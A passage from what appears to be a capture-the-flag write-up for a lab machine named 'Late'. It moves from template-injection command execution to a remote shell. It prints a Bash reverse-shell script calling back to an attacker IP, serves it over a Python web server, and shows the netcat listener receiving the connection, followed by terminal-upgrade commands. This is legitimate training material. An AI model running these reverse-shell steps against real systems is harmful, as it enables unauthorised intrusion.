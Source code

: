     <p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

    </p>



#### Shell

To get a shell from this, I'll update the payload with the shorted
reverse shell I can think of:

![](/img/late-ssti-rev-10.10.14.6.png)

I'll create `r` with a basic Bash reverse shell ([explained
here](https://www.youtube.com/watch?v=OjkVep2EIlw))



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



And host it with `python3 -m http.server 80`. On submitting, it gets `r`
from my webserver:



    10.10.11.156 - - [25/Jul/2022 17:13:04] "GET /r HTTP/1.1" 200 -



And then there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.156 55630
    bash: cannot set terminal process group (1237): Inappropriate ioctl for device
    bash: no job control in this shell
    svc_acc@late:~/app$



I'll upgrade the shell using the standard tricks ([explained
here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):



    svc_acc@late:~/app$ script /dev/null -c bash
    Script started, file is /dev/null
    svc_acc@late:~/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    svc_acc@late:~/app$

